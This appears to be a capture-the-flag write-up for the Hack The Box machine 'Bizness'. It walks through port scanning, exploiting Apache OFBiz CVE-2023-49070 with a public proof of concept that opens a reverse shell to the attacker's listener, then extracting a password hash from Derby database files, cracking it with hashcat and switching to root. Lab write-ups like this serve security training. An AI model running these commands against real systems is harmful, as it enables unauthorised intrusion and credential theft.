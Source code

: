 ```yaml
---
title: Bizness
published: true
layout: post
---
```


<br />

---------------
Bizness is an easy Linux machine showcasing an Apache OFBiz pre-authentication, remote code execution (RCE) foothold, classified as [CVE-2023-49070](https://nvd.nist.gov/vuln/detail/CVE-2023-49070). The exploit is leveraged to obtain a shell on the box, where enumeration of the OFBiz configuration reveals a hashed password in the service's Derby database. Through research and little code review, the hash is transformed into a more common format that can be cracked by industry-standard tools. The obtained password is used to log into the box as the root user. 
<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/A3ZqEuVNlKY?si=uS_U2TZdcs1XjwvZ" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------
<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />

Let's start by scanning for **open ports**:

```bash
sudo nmap -sS 10.10.11.252 -p- -T4 --min-rate 5000 -oN all_tcp_ports.txt --open -n -Pn -vv
sudo nmap -sU 10.10.11.252 -p- -T4 --min-rate 5000 -oN all_udp_ports.txt --open -n -Pn -vv
```
<br />

There are **3 open ports**:
+ **22/tcp**
+ **80/tcp**
+ **443/tcp**

<br />

Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.11.252 -p 22,80,443 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
```
<br />

These services are:
+ **22/tcp OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)**
+ **80/tcp nginx 1.18.0**
+ **443/tcp nginx 1.18.0**

<br />

We also find out a **hostname**, so let's add it:

```bash
echo '10.10.11.252 bizness.htb' | sudo tee --append /etc/hosts
```
<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.11.252 -p 22,80,443 -T4 --min-rate 5000 --script="vuln or intrusive or discovery" -oN tcp_vulns.txt -oX tcp_vulns.xml -n -Pn
```
<br />

These scans didn't return any relevant information.
<br />

------
<br />
### Foothold

After inspecting the website and not finding anything interesting, we can start performing **directory and file enumeration**, let's look for something hidden:

```bash
feroxbuster --url https://bizness.htb -r --threads 25 -d 0 -o feroxbuster_dir_and_file_enum_443.txt -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -k
```

![](/assets/Bizness/1.png)
<br />
<br />

There seems to be **sub-sites**, let's inspect it:<br />

![](/assets/Bizness/2.png)
<br />
<br />

There seems to be a **version number** at the **bottom left**, let's look for vulnerabilities:<br />

![](/assets/Bizness/3.png)
<br />
<br />

The search leads me to this **GitHub repository**, which seems to have an script to gain a **reverse shell**, let's download it and try it:

```bash
git clone https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC.git
cd ofbiz-CVE-2023-49070-RCE-POC
wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar
python3 exploit.py https://bizness.htb shell 10.10.16.5:4444
```

![](/assets/Bizness/4.png)
<br />
<br />

We got the flag! Nice, let's escalate privileges.
<br />

------
<br />
### Privilege Escalation

After a deep enumeration, we could find some **.dat files** in an **/opt/ofbiz directory**, which are files that contain the data of a database, we can try to **extract strings** from it to identify **sensitive information**:

```bash
find /opt/ofbiz -name *.dat 2>/dev/null | xargs strings | grep -v /opt
```

![](/assets/Bizness/5.png)
<br />
<br />

We could find a password hash in this files, however it's **not usable in this format**, we can use automated tools to use it, however, let's do it manually.
<br />

This hash consists of three parts separated by dollar signs, $_Algorithm_\$_salt_\$*actual_hash*, we have to transform the actual hash from base64, in this case **base64 URL Safe**, which will return a binary output, so then to **hex output**. Now that we have this hash, we have to **append the salt** at the end for hashcat to use it:

```bash
echo -n 'uP0_QaVBpDWFeo8-dRzDqRwXQ2I' > hash
echo $(cat hash | tr '_-' '/+' | base64 -d | xxd -p):d > usable_hash
hashcat -m 120 usable_hash  /usr/share/wordlists/rockyou.txt
```

![](/assets/Bizness/6.png)
<br />
<br />

We cracked the hash!!! Let's try to use it to escalate privileges, but first let's **sanitize the shell**:

```bash
script /dev/null -c bash
reset xterm
export TERM=xterm
export SHELL=bash
su root
```

![](/assets/Bizness/7.png)
<br />
<br />
